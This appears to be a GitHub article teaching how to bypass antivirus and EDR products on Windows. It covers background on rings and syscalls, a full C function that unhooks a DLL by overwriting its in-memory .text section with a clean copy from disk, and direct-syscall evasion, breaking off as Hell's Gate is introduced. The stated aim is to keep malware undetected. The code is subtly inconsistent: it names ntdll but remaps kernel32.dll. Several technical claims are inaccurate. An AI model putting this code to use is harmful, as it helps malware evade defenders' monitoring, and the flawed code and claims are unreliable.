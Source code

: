# Endpoint Detection Response Security and Bypass
AV/EDR Security bypass written by Zero

## Table of contents
1. Introduction
2. Assembly code
3. Windows architecture
4. Syscall or system call
5. User-mode and Kernel-mode
6. Remapping a clean DLL
7. Direct use of syscall

## Introduction
Anyone who follows the malware community and company has come across the terms `Userland hooking`, `Syscalls`, `P/Invoke/`, `D-Invoke` and many more. Because of the increasing number of computer attacks, more and more companies are starting to create a security team (SOC) or a CERT. Their main goal is to prevent or identify and block potential attackers. EDR systems are therefore increasingly used. As a result, EDR bypassing is becoming more and more relevant. Before we dive into the main topic, we need to take a look at some basics of the Windows operating system architecture as well as a small part on assembly code. Feel free to skip this part.<br>
In this article I will discuss different techniques to bypass AV/EDR.
* Mapping a clean DLL in memory
* Direct use of syscall

## Assembly code
If you are writing a program, regardless of the language you will probably use a compiler to create the program. The code is transformed into machine language; at the end it is binary code, and can be directly executed by a CPU.
Some compilers, such as `gcc` for example, produce assembly code before translating it into machine language. Assembly code is the closest code to machine language and looks like this:<br>
![](https://i.imgur.com/j85R6jD.png)<br>
By disassembling via IDA Pro or Ghidra you will also get the assembly code.

## Windows architecture
Programmers generally don't want to reinvent the wheel, so basic functions are imported from existing libraries. For example `printf()` is imported via `stdio.h` in C language. For example Windows developers use an API, which can also be imported into a program. The so-called Win32 API is documented and consists of a multitude of library files (DLL-files), located in the `C:\windows\system32` folder, such as `kernel32.dll` or `User32.dll`.
Here is a diagram of the Windows architecture. There is a multitude of them, a Google search is enough to find some.<br>
![](https://i.imgur.com/EhSmSI2.png)<br>
`ntdll.dll` is not part of the Win32 API and is not officially documented.

## Syscall or system call
What are direct system calls? If you've worked with old OS, you might remember that a simple application crash could result in a complete system crash. This was because the OS was running in `Real-mode`, which means that the processor is running in a mode where no memory isolation and protection is applied. A bug could result in a complete crash. Annoying, right?<br>
Now, there's a `Protected-mode`. It introduce many safeguards and can protect the system from crashes by isolating running programs from each other using virtual memory and privilege levels or ring. On a Windows system, there's two rings that are actually used. Application are running in `User-mode` which is equivalent to `Ring 3` and critical system components like the kernel and device drivers are running in `Kernel-mode`, which is equivalent to `Ring 0`.<br>
When an application needs to switch into the Ring 0, it gives the execution flow into Kernel-mode. This is where system calls come in.<br>
Using a picture might be easier to understand. So here it is:<br>
![](https://i.imgur.com/ptu7lVG.png)<br>

## User-mode and Kernel-mode
The Windows OS has two different privilege levels, which have been implemented to protect the OS from possible crashes caused by applications. All applications installed on a Windows system run in the so-called `User-mode`. The kernel and drivers run in `Kernel-mode`. Applications in User-mode cannot access or manipulate memory in Kernel-mode. AV/EDR systems can only monitor the behavior of applications in User-mode, because of `Kernel Patch Protection`. And the very last instance of User-mode is composed of the Windows API functions of `ntdll.dll`. If a function of `ntdll.dll` is called, the CPU goes into Kernel-mode, and it is not monitored by AV/EDR anymore. The functions of `ntdll.dll` are called syscalls.

## Remapping a clean DLL
If your program loads certain functions from `kernel32.dll` or `ntdll.dll`, a copy of the library file is loaded into memory. One of the EDR detection mechanisms is the use of "hooking userland". This method modifies `ntdll.dll` directly in the process memory in order to monitor its calls to the WinAPI. What they do is that they (usually) modify the in-memory copy and place a JMP assembler instruction at the beginning of the code to redirect the Windows API function to an inspection code of the AV/EDR software itself. Therefore, before calling the real function, an analysis is performed. If no suspicious behavior is detected, the original Windows API function is then called. If the opposite is true, the call is blocked or the process is killed. Here is a nice image from ired.team that helps to understand better:<br>
![](https://i.imgur.com/ZAonrfi.png)<br>
There is a technique to get rid of the hooks placed in the DLL. The problem is that it is possible to have to patch differently for each AV/EDR. The idea of this technique is based on the fact that the dll as it is on the disk is healthy, so it is enough to overwrite the DLL in memory with the DLL on the disk.
By applying this method we get a healthy `.text` section in memory, and we bypass the hooks posed by the EDR.<br>
To use this technique you need to know the exact NTDLL.dll functions needed for your project and extract the corresponding assembler code for them via disassembling. Afterwards you need to build an ASM-file containing all different offsets for different Windows OS-Versions. Sounds complicated. <br>
Using this technique will enable us to bypass `Userland-Hooking` in general, so regardless of the seller of the VA/EDR. **But** as soon as a new Windows version is released, it won't work anymore.<br>
It is possible to add a function for this, or you can use two tools:
* [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
* [InlineWhispers](https://github.com/outflanknl/InlineWhispers)<br>
<br>
In case you want to add the function, this is what it should look like:

```c
int unHookAll() { 
  HANDLE process = GetCurrentProcess();
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("kernel32.dll");
    GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\kernel32.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            BOOL isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }
   
    CloseHandle(process);
    CloseHandle(ntdllFile);
    CloseHandle(ntdllMapping);
    FreeLibrary(ntdllModule);

    return 0;
}
```

Here is what this code does:
* we map the kernel32.dll in memory.
* look for the address of the text section of the hooked dll
* get the protections present on the hooked dll
* copy the text section of the original dll into the text section of the hooked dll.
* put back the protections previously applied.

## Direct use of syscalls
The EDR sets its hooks in "userland", so it will inspect the parameters of a WinAPI function that will link to a syscall. But what happens when we use directly the syscall?<br>
In x64, Windows makes the transition between userland and kernelland via syscalls. If we look at the `NtWriteFile` function in `ntdll.dll` we can clearly see how Windows prepares the jump to kernel-land. It first moves the right value in eax and then jumps to kernel land and uses the SSDT "System Service Dispatch Table" to find the api corresponding to the requested syscall. What is interesting to notice is that here only the assignment of a value to eax and the syscall are important: if we prepare the stack with the desired arguments we will be able to call the syscall directly and therefore not go through the EDR hooks.<br>
So we can simply turn our WinAPI calls into direct syscall. Thus, if an EDR uses hooks on these WinAPI functions, it would no longer be able to detect the malware (at least not in this way).<br>
One slight problem... system call numbers change between OS version and sometimes even between built. Luckily, j00ru from Google project Zero created an [online system calls table](https://j00ru.vexillium.org/syscalls/nt/64/). He did an amazing job keeping up with all systems numbers, so you have a great resource there.<br>
All we need to do is to get information about the OS version we are using and create references between the native API function definitions and OS version specific system call functions in assembly language. For this we can use the `RtlGetVersion` routine and save the version. Once this is done we can use the system calls in our code as if they were normal functions.<br>
<br>
However, that is not the best way. 
### Introducing Hell's Gate
Hell's Gate is the name given by @am0nsec and @RtlMateusz in [this paper](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf). The idea is to find the syscalls dynamically on the host by reading through `ntdll.dll` and call them from our own implementation. 
